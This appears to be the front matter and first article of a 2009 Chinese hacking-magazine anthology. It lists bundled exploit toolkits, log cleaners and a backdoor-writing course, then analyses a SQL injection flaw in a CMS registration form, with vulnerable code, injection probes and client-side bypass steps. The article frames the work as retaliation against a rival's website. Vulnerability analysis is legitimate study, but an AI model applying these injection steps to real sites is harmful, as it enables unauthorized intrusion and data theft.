# 黑客防线2009精华本（下）

---

透视黑客技术发展焦点，把握黑客攻防技术跳动脉搏，全面收录流行黑客技术

- 黑客编程实战大演练
- 黑客免杀与入侵进阶
- 加密与破解经典实例
- 网络安全与加固精讲

# 黑客防线

## 2009

### 精华奉献（下册）

《黑客防线》编辑部 编


人民邮电出版社  
POSTS & TELECOM PRESS

# 黑客秘笈


## 2009

### 精华荟萃本（下册）

《黑客防线》编辑部 编

人民邮电出版社

北京

# 内容提要

《黑客防线2009精华奉献本》是国内最早创刊的网络安全技术媒体之一《黑客防线》总第85期至第96期的精华文章摘要。

《黑客防线》一直秉承“在攻与防的对立统一中寻求突破”的核心理念，关注网络安全技术的相关发展，并一直保持在国内网络安全技术发展前列。从2001年创刊至今，已经成为国内网络安全技术的顶尖媒体。《黑客防线2009精华奉献本》选取了包括黑客攻防、安全编程、漏洞发掘、入侵渗透、安全防护等方面的精华文章，配合两张包含1200MB安全技术工具、代码和录像的光盘，为读者方便阅读、理解提供了非常便捷的途径。

本书分为上、下两册（本册为下册），适合高校在校生、网络管理员、网络安全公司从业人员、黑客技术爱好者阅读。

# 致读者的话

今年是不平凡的一年。这一年，作为2001年创刊的国内网络安全技术媒体之一，《黑客防线》做了很多事情——包括杂志进一步提升技术水平，把光盘改为普及型的电子杂志。同时，黑客防线网站的VIP会员的规范性管理、培训班的正规化管理，很多事情，都是在这一年完成的。《黑客防线2009精华奉献本》就是在这样的情况下推出的，可以说，精华本浓缩了我们整年的所有心血！

今年真的很不平凡。在我们为奥运而兴奋、而奔波、而劳累之后，谁也想不到是全球的经济危机袭击了我们猝不及防的松弛心境。世界万物仿佛永远遵循着一个定律，乐极就会生悲，然后就是否极泰来。所以大可不必因为经济不景气而否定任何美好的预期，反而应该百倍地增加学习技术和钻研技术的信心。其实，每次世界性的经济危机都会催生一次新的科技创新，任何商品的贬值都没有影响到新技术的升值。因而，拥有黑客防线，学习和钻研技术，是我们处乱不惊的精神寄托。

有了这样的共识，在岁末年初之际，我们推出了《黑客防线2009精华奉献本》。这本书有两个特点，一个特点是完全浓缩了整年的黑客技术精华，将平时读者反映很好的技术文章综合了起来；另一个特点就是对过去一年的网络安全和黑客技术做了一个总结，并且对新的一年的网络安全技术的发展有了一个展望——展望越来越繁荣的网络安全技术走向！

最后，还需要强调的一点是：《黑客防线》是一本技术月刊，它主要承载新的技术信息、新的技术探索。如果你有志于从事技术工作，特别是与网络相关的行业，或者是有志于钻研技术和技术突破，首先需要的理念就是要尊重技术的价值，就如同我们尽心尽力为广大读者编辑此书一样——每一位钟爱网络安全技术的人，都应该得到彼此之间的尊重！

其实，大家都知道，所谓《黑客防线2009精华奉献本》，大部分都是2008年以来的精华文章——只不过重新制作一本精华本，就给了我们又一次去粗取精、去伪存真的机会。特别是随着时间的过去几个月，对各方面技术的认识，又会多一些沉淀和判断，也是读者对于我们选编水平和技术评判标准的又一次检验。说到这里，让我们再一次感谢读者对我们的认可和支持，也感谢我们的作者提供了分门别类的技术原创文章，特别要感谢的是，那些没有选入精华本文章的作者，还是一如既往地支持我们，提出宝贵的建议，同时自己也在购买精华本。

让我们从现在做起，从我做起，一起珍重网络安全技术的快速发展势头，抓住网络安全技术的新亮点，一起开创中国网络安全技术的新篇章！

## 黑客防线2009精华奉献本

## 光盘目录

### A卷目录

**图书相关**

- 1）**编程解析**
  - BdS结构远程控制的构想与实现
  - Inline Hook KeyboardClassServiceCallback实现键盘记录
  - LSP的遍历与修复
  - NAT穿透之NAT类型检测
  - Ring0钩子防网页挂马
  - Ring0突破360自我保护
  - Ring0下恢复SSDT Shadow
  - Ring0中Hook SSDT防止进程被结束
  - Ring0中Hook SSDT实现注册表监控
  - Ring3下强行删除文件的攻与防
  - Rootkit端口隐藏技术
  - Rootkit文件隐藏技术实现
  - 编程打造自己的SSDT恢复工具
  - 穿透还原卡原理以及实现
  - 摧毁还原精灵保护系统
  - 打造自己的程序行为监视器
  - 感染PE文件加载DLL
  - 恢复Ring0下的IAT与EAT Hook
  - 基于NTFS的数据流创建与检测
  - 利用BMP图片水印技术写入加密信息
  - 另类绕过Ring3下Inline Hook
  - 内核方法实现进程保护
  - 深入分析RegMon的编程实现
  - 使用过滤驱动打造防火墙
  - 探秘系统内核表SSDT Shadow
  - 托管注入深入研究
  - 无进程式线程插入穿墙技术实现
  - 修改函数一个字节实现新型Hook
  - 映像劫持VS启动杀软
  - 用开源反汇编引擎检测Inline Hook
  - 再谈内核及进程保护
  - 在内核驱动中检测隐藏进程
  - 直接调用NTFS文件驱动检测隐藏文件
  - 植入执行文件穿越软件防火墙

- 2）**黑器攻防**
  - AU3干掉360实时保护
  - Split函数黑客化轻松免杀ASP木马
  - 对PHP免杀的思考
  - 拿来主义对抗微点主动防御
  - 实战突破微点主动防御
  - 数字化脚本免杀法

- 3）**密界寻踪**
  - Armadillo 5.00标准保护的简单脱法
  - Flash也疯狂破解
  - Ring3下逆向TCPView端口枚举机制
  - Themida脚本编写细解
  - 百度QQ号码搜索V2.0算法分析
  - 初探国内某个人杀毒软件内部原理
  - 打造文曲星NC3000模拟器白金存档补丁
  - 攻破DomLinux邮件服务系统
  - 狙剑文件与磁盘过滤驱动遍历和删除功能全逆向
  - 利用Decompiler辅助分析IcesWord端口枚举功能
  - 破除Hide The IP的网络验证
  - 软件代码窃取技术

- 4）**网管之家**
  - Linux下绑定多网卡实现双网络
  - 基于符号链接的防盗链功能实现
  - 用Linux下的代理服务器来保护主干网

- 5）**脚本攻防**
  - 0Day极速秒杀FTBBS 6.X

- 6）**漏洞攻防**
  - Linux xfs服务漏洞利用与分析
  - Linux内核vmsplice提权漏洞利用与分析
  - PowerPoint漏洞经典案例分析
  - VoIP安全体系下的全面BreakThrough
  - 免杀迅雷PPLAYER.DLL ActiveX控件溢出漏洞
  - 迅雷PPLAYER.DLL ActiveX控件溢出漏洞剖析及利用

- 7）**首发漏洞**
  - 发掘CMS001程序漏洞
  - 拿下DVBBS PHP官网

- 8）**特别专题**
  - MS08-011 Office WPS文件转换栈溢出漏洞分析与利用
  - NDIS过滤驱动在广域网络会话劫持防范技术中的应用研究
  - 浅析Microsoft Jet Engine MDB File溢出漏洞
  - 手机入侵与入侵手机

- 9）**溢出研究**
  - 安全搜索进程内存空间
  - 代码中的指南灯：逆向技术
  - 隔山打牛之RealPlayer栈溢出
  - 精简你的数字字母ShellCode
  - 上传漏洞的发掘技术
  - 再谈全字母数字的ShellCode的编写

### C++黑客编程课程展示

- 【第1课】开发环境简介 + Hello World  
  本节前置知识要求：
  - 基本的C语言语法的掌握
  - 对Socket编程的原理有一定的基础
  - 对Windows数据结构有一定的基础  
  本节课的主要内容：
  - 配置开发环境
  - 编写Hello World

- 【第2课】超简单后门  
  本节前置知识要求：
  - 基本的C语言语法的掌握
  - 对Windows数据结构有一定的基础  
  本节课的主要内容：
  - 在上节课的基础上完成一个简单的后门
  - 编写Makefile

- 【第3课】开辟一条管道  
  本节前置知识要求：
  - 基本的C语言语法的掌握
  - 对Socket编程的原理有一定的基础  
  本节课的主要内容：
  - 创建新进程的方法
  - 用管道（PIPE）进行进程间通信

- 【第4课】加点零件  
  本节前置知识要求：
  - 基本的C语言语法的掌握
  - 对Socket编程的原理有一定的基础  
  本节课的主要内容：
  - 学习Windows编程中的一些常用技术

- 【第5课】第一个后门  
  本节前置知识要求：
  - 基本的C语言语法的掌握
  - 对Socket编程的原理有一定的基础
  - 对Windows数据结构有一定的基础  
  本节课的主要内容：
  - 结合前四节课的内容，完成一个功能完整的后门

- 【第6课】降洛伊，反向突破  
  本节前置知识要求：
  - 基本的C语言语法的掌握
  - 对Socket编程的原理有一定的基础
  - 对Windows数据结构有一定的基础  
  本节课的主要内容：
  - 学习反向连接后门的工作原理
  - 将上一节中的后门改成一个具备反向连接功能的后门

- 【第7课】支持的力量，DLL加载器（上）  
  本节前置知识要求：
  - 基本的C语言语法的掌握
  - 对Socket编程的原理有一定的基础
  - 对Windows数据结构有一定的基础  
  本节课的主要内容：
  - 认识DLL文件
  - 编写一个DLL版本的Hello World
  - 本地应用程序Loader调用DLL文件

- 【第8课】支持的力量，DLL加载器（下）  
  本节前置知识要求：
  - 基本的C语言语法的掌握
  - 对Socket编程的原理有一定的基础
  - 对Windows数据结构有一定的基础  
  本节课的主要内容：
  - 使用远程线程注入的方法在已有的程序中挂载DLL文件
  - 完成一个测试用的DLL_Loader

- 【第9课】握着你的手写DLL木马  
  本节前置知识要求：
  - 基本的C语言语法的掌握
  - 对Socket编程的原理有一定的基础
  - 对Windows数据结构有一定的基础  
  本节课的主要内容：
  - 将后门改造成一个DLL后门

- 【第10课】Win32多线程基础  
  本节前置知识要求：
  - 基本的C语言语法的掌握
  - 对Socket编程的原理有一定的基础
  - 对Windows数据结构有一定的基础  
  本节课的主要内容：
  - Win32多线程基础，并发的开始。


## VIP必备工具包

## 经典溢出工具包合集

该工具包合集包含以下程序：ms-sql远程溢出工具、ispc unicode漏洞利用工具、iis5hack及idahack、printer漏洞远程溢出工具、Snake IIS、idq远程溢出工具、ASP漏洞远程溢出工具、webdav漏洞远程溢出工具、rpc_locator及RPC LOCATOR漏洞远程溢出工具、media server远程溢出工具、Windows rpcdcom远程溢出工具、Windows 2000 rpcdcom远程溢出工具（反向连接）、Windows rpcdcom长文件名远程溢出程序、Windows messenger漏洞远程溢出程序（ms03-043）、Windows workstation漏洞远程溢出程序（ms03-049）和Windows frontpage fp30reg。

## 23款黑客小工具包

包含以下程序：

1. s.exe：扫描器  
2. dns.exe：DNS欺骗工具  
3. sqlhello.exe：sqlhello溢出工具  
4. nc.exe：黑客入门必备瑞士军刀  
5. cca.exe：克隆账号的小工具ca  
6. c3389.exe：查看终端服务端口  
7. elsave.exe：小榕日志清除工具  
8. FPipe.exe：端口转发  
9. hxdef100.zip：黑客守卫者  
10. IIS隐藏后门.zip：IIS隐藏后门工具  
11. pulist.exe：列进程的命令行下小工具  
12. radmin.zip：上课时用的软件  
13. fscan.exe：扫描软件，非常强大  
14. pmh.exe：隐藏进程的小软件  
15. SocksCap.zip：本地代理用到的软件  
16. sky.bat.rar：本地防护的批处理  
17. SSSO-Friend.exe：SSSO入侵伴侣  
18. SqlServer.exe：SQL Server日志清除专家  
19. rdpbd_.zip：RDP终端复制文件补丁  
20. SQLTools.exe：SQL空口令入侵工具  
21. icx.exe：入侵内网必备  
22. ra.exe：打开7788端口，密码是www@21cn@com的radmin服务端  
23. TFTPD32.EXE

## 黑客防线2008安全工具包

- 黑防入侵必备工具包
- 黑防脱壳破解必备工具包
- SQL注入工具
- 实用查询工具包
- 音速启动
- 批处理U盘杀毒工具
- BlueScreen
- 风宁开盘黑客防线专版
- html code capturer
- newsid
- PageDefrag
- ProcessExplorer
- PsTools
- ShellCode Decoder
- VirtualDesktop
- 网马EXP的保护与破解
- WordPress SQLRFICGI
- XSS_Auditor
- SQL表列获取
- radmin hash转换
- 黑客防线专版wpa-psk破解工具
- c99去后门增强黑防专版
- 黑客防线专版IP查询器
- PHP Bug Scanner
- blind SQL injection
- sqlResp v1.0 黑客防线专用汉化版
- Proxy Tester v1.1 黑客防线汉化专版
- mysqlfuzz
- Roffset2Voffset
- Phpwind Admin Pass Change Exploit
- 黑客防线专版QQ聊天器
- CGI扫描器
- Goog2Text v1.5
- MD5工具
- ASP木马
- Hash破解黑防专版
- 鼠标恶搞程序+源代码
- HACKER WEBKIT
- Ajax蠕虫
- 驱动安装器
- Spy4Win（Spy for Window）
- SQL表列获取v1.0
- ASCII码查询
- Blind注入工具bsqlhacker
- Internet Explorer m4v Remote 0day
- 0Day极速秒杀FTBBS 6.X
- 注入地址批量检测工具
- VB端口扫描工具
- 刷流量工具
- 可靠密码生产机

## 黑客防线2009精华奉献

### 目录（下册）

## 首发漏洞

- 零点爆破——零点站点管理系统3.21版漏洞分析 …… 1
- 虚拟机也不安全——VMWare Critical Bug浅析 …… 9
- 捷派风波——捷派网站管理系统 .NET V2.0漏洞分析 …… 20
- Dedecms v5又一个任意代码执行漏洞 …… 26
- 双字节编码：PHP的隐形杀手 …… 28
- 拿下DVBBS PHP官网 …… 38
- 发掘CMS001程序漏洞 …… 42

## 特别专题

- 浅析Microsoft Jet Engine MDB File溢出漏洞 …… 45
- 手机入侵与入侵手机 …… 48
- MS08-011 Office WPS文件转换栈溢出漏洞分析与利用 …… 56
- NDIS过滤驱动在广域网络会话劫持防范技术中的应用研究 …… 60
- PHP的后注入时代——DeDe、PHPCMS、PHP168三款PHP系统漏洞分析 …… 68

## 漏洞攻防

- 迅雷PPLAYER.DLL ActiveX控件溢出漏洞剖析及利用 …… 84
- 免杀迅雷PPLAYER.DLL ActiveX控件溢出漏洞 …… 88
- Linux内核vmsplice提权漏洞利用与分析 …… 89
- VoIP安全体系下的全面BreakThrough …… 93
- Linux xfs服务漏洞利用与分析 …… 99
- 蓝牙攻击——手机、PDA、蓝牙耳机尽在囊中 …… 101
- PowerPoint漏洞经典案例分析 …… 110
- 从MS08-025看本地提权漏洞的分析与利用 …… 114
- 借助IE崩溃实现另类自启动 …… 117
- Surf Jacking攻击的原理与实现 …… 120
- 飘忽在办公室里的暗影——打印机攻击 …… 122

## 脚本攻防

- 利用Session验证做后门 …… 131
- 高贝文章系统最新版0Day分析 …… 133
- 发掘MaosinCMS网站系统漏洞 …… 135
- JSP提权再品DOS刀耕火种年代 …… 137
- C-Blog注入漏洞再现 …… 142
- 构造并修复后台登录页面注入漏洞 …… 143
- 利用XSS在猫扑网“盗”Cookie挂马 …… 145
- 活用SQL注入中的“绕” …… 147
- 科讯的软肋——科讯最新漏洞深度分析与利用 …… 151
- 注入Discuz!NT 2.5 …… 161
- 从DedeCMS谈PHP本地文件包含漏洞的利用方式 …… 163
- 0Day极速秒杀FTBBS 6.X …… 165
- DVBBS 2.0 PHP++再现多个0Day …… 171
- 绕过的注入——XUAS、MYPHP最新漏洞分析 …… 179
- Hidden下的注入攻击 …… 187

### 漏洞研究总第□□期

- 菜鸟版Exploit编写指南之四十三：隔山打牛之RealPlayer栈溢出 …… 189
- 菜鸟版Exploit编写指南之四十四：安全搜索进程内存空间 …… 192
- 菜鸟版Exploit编写指南之四十五：再谈全字母数字的ShellCode的编写 …… 196
- 菜鸟版Exploit编写指南之四十六：重温MDB File文件漏洞 …… 200
- 菜鸟版Exploit编写指南之四十七：The shorter, the better——精简你的数字字母ShellCode …… 202
- 黑客漏洞发掘技术内幕系列之一：磨刀不误砍柴功——迈出第一步的准备工作 …… 208
- 黑客漏洞发掘技术内幕系列之二：搭建一个测试平台 …… 215
- 黑客漏洞发掘技术内幕系列之三：XSS脚本漏洞发掘技术 …… 222
- 黑客漏洞发掘技术内幕系列之四：SQL Injection注入漏洞的发掘方法 …… 230
- 黑客漏洞发掘技术内幕系列之五：上传漏洞的发掘技术 …… 238
- 黑客漏洞发掘技术内幕系列之六：包含式&信息泄漏式漏洞的发掘技术 …… 247
- 黑客漏洞发掘技术内幕系列之七：Fuzzing技术的魅力 …… 256
- 黑客漏洞发掘技术内幕系列之八：给程序号脉的调试技术 …… 266
- 黑客漏洞发掘技术内幕系列之九：代码中的指南灯：逆向技术 …… 274
- 黑客漏洞发掘技术内幕系列之十：监视技术&补丁比较技术 …… 283
- 黑客漏洞发掘技术内幕系列之十一：最有效的漏洞发掘技术：代码审计 …… 291

## 渗透与测试

- 误打误撞进入电信、网通、移动 …… 299
- 校园网渗透技术解析 …… 301
- ASP和PHP双马连用直接提权 …… 306
- 入侵Linux系统 …… 309
- 社工渗透张家界信息港 …… 311

# 适合读者与前置知识

- 适合读者：入侵爱好者  
- 前置知识：无

## 零点爆破——零点CMS后台管理系统 3.21 版漏洞分析

文／图 Cschi

近日，同行业的一位朋友针对业内应用软件写了个辅助工具，在 QQ 群中叫卖，大肆宣扬其工具如何的必要，并建了网站公开了银行汇款账号！看得我极不自在。这足以证明你能就行了吧，又何必如此张扬呢？我向来主张共享，如果大家都对生活工作中的一点发现都藏着掖着，都需要以货币来交换的话，我想社会恐怕也发展不到今天。如果不是思想的传播、经验的交流，可能这位老兄至今还处在结绳记事的什么石器时代呢。诚然开发软件目的是为了效益，但那需要所开发的软件有价值。该辅助工具是用易语言编写的，轻易便破解了，既然搞就搞得彻底点，再看看其网站吧，是用零点 CMS 建的。



图1

## 攻坚

零点 CMS 属于捷派工作室（原零点设计在线）作品，界面简洁，栏目设置也较全面，公告、会员登录、网站统计、投票、留言板、评论等，能满足基本的建站需求。确认的特征页面是公告链接为“Unit_View.asp?id=xxx”，在其后加上单引号后的错误提示页面如图1所示，还有“图片频道”的页面链接为 ImgChannelView.asp 等。我们可以使用百度搜索这些特征页面，如“inurl:ImgChannelView.asp”。

既然知道了他所使用的 CMS 系统是什么就好办了。从捷派官方网站下载最新版 ZSA3.21（下载地址 http://www.mb999.com/SoftWare/softview.aspx?SoftID=32），本地搭建 IIS（http://127.0.0.1）。分析后觉得该 CMS 代码编写得很规范，思路清晰，所有对数据库的操作全部写成函数存入 inc 目录，并对操作数据库的参数进行了严格的过滤。虽然有几处没有过滤的，如在 inc/getCommonData.asp 中，takeArticle 函数的 articleType 参数、takeSoft 函数的 SoftType 参数等，并且正常页面调用这些函数时，这些参数为常数，但是 is/RemoteCall.asp 却用 Request.QueryString("ClassID") 传入了 articleType 等参数！（用 Dreamweaver 搜索所有调用 takeArticle 函数的页面）如图2所示。



图2

由此，我们构造调用链接“http://127.0.0.1/is/RemoteCall.asp?CallType=article&ClassID=0&DisplayNum=5&isShowTime=0&MaxWord=8&orderWord=hits”，页面返回正常！如图3所示。试看：



图3

修改成“ClassID=0 and 1=1”，提交出错，如图4所示（IIS 的“应用程序配置”-“调试”项应设置为“向客户端发送详细的 ASP 错误信息”）。查看 inc/getCommonData.asp 第40行代码，如图5所示，原来是字符串与数字比较时 ASP 报错！看来是不能利用的！



图4



图5

再分析 inc/CheckLogin.asp 文件看看 Cookies 是否可以注入，但 CheckMemberLogin 函数已将 Request.Cookies(ZD_CookieName)("MemberID") 中的单引号过滤了！真是穷途末路了！……当看到 inc/getMemberData.asp 文件中的 adminMemberData 函数时，眼前一亮，变量 Request.Form("memberID") 不是没有过滤就放入 SQL 语句中了吗？（第340行）如图6所示。攻坚战终于发现了突破口！



图6

（其实，adminMemberData 函数中用 FormatWord 过滤了 Request.Form("MemberID") 变量，但因作者疏忽，FormatWord 根本没起多大作用，这点会在后面的“爆破”节中详细说明）。攻坚有了突破口，下面就让我们先阻击掉这处的火力点吧！

## 阻击

- 目标：inc/getMemberData.asp  
- 描述：注册新用户时，用户名变量没有过滤单引号，存在注入漏洞。

我们先仔细分析一下 inc/getMemberData.asp，代码如下。

```asp
Select Case Request.QueryString("displayType")
  Case ""
    ShowMember=displayMemberStatus()
  Case "RegMember"
    ShowMember=displayMemberReg(Request.QueryString("step"))
  Case "editeMember"
    ShowMember=displayMemberEdite()
  Case "selfHelp"
    ShowMember="<span class='RedText'>" & MemberSelfHelpAdd(Request.QueryString("para2")) & "</span>"
  Case Else
    ShowMember="<span class='RedText'>" & MemberOsMessaged & "</span>"
End Select

' ...
If Request.Form("adminMember")<>"" Then
  If Request.Form("adminMember")="reg" Then
    Call adminMemberData("reg")
  End If
  If Request.Form("adminMember")="edite" Then
    Call adminMemberData("edite")
  End If
End If
```

当 displayType 参数值不为空，且为 editeMember、selfHelp 时，如 RegMember 或其他，代码继续向后执行。当 adminMember 值为 reg 时，调用 adminMemberData 函数，代码如下：

```asp
IF adminType="reg" Then
  ......  ' 略去对用户名、密码、提示问题、提示答案等处理
End If
```

```asp
' 是否为空的判断，同时忽略 FormatWord 函数的作用
Set chkRs=Server.CreateObject("Adodb.Recordset")
chkRs.open "select * from ZD_Member where MemberID ='"&Request.Form("memberID")&"'",conn,1,1
IF chkRs.eof Then
    chkRs.close
    set chkRs = Nothing
    Set Rs = Server.CreateObject("Adodb.RecordSet")
    Sql = "Select * from ZD_Member"
    Rs.open Sql,conn,1,3
    Rs.addnew
    Rs("MemberID") = Request.Form("memberID")
    Rs("question") = Server.HTMLEncode(Request.Form("question"))
    …… ' 略去对其他字段更新的语句
    Rs.update
    Rs.close
    Set Rs = Nothing
    …… ' 略去注册成功后账号是否处于锁定状态的判断
Else
    Response.Redirect "Member.asp?displayType=RegMember&step=step2&OsMessage=该用户已经被注册!!"
    Response.End
End IF
End IF
```

```html
class=dataInput maxLength=200 size=50 name=memberID>
<!-- maxLength 根据情况修改为 200（或者删除 maxLength 限制），size 修改为 50 -->
<TD>会员密码：<INPUT class=dataInput type=password maxLength=18 size=15 name=password value=111111>
<TD>重复密码：<INPUT class=dataInput type=password maxLength=18 size=15 name=passwordcheck value=111111>
<TD>密码提示：<INPUT class=dataInput id=question name=question value=111111>
<TD>提示答案：<INPUT class=dataInput id=answer name=answer value=111111>
<!-- 会员密码、重复密码、密码提示、提示答案初始赋值 -->
```

可见当 adminType 值为 reg 时，程序首先执行 chkRs.open 语句，如果返回空集，则增加新用户；否则提示用户已被注册。比如注册用户名为“aa' and '1'='1'”时提示“该用户已经被注册!!”，而注册用户名为“aa' and '1'=2”时提示“aa' and '1'=2，注册成功!! 请使用登录面板进行登录！”，如图7所示。



图7

注意“会员账号”栏最长只能输入16个字符，并且变量是用 Request.Form 方式获取，所以另存注册页面（http://127.0.0.1/Member.asp?displayType=RegMember&step=step2）到本地进行如下修改：

```html
<FORM name=form1 action="http://127.0.0.1/Member.asp?displayType=RegMember" method=post>
<!-- 将 action 值修改为 http://127.0.0.1/Member.asp?displayType=RegMember，即要提交到的页面链接 -->
<!-- 删除 onsubmit="return checkAddMember()" -->
<TD width="48%">会员账号：<INPUT ...>
```

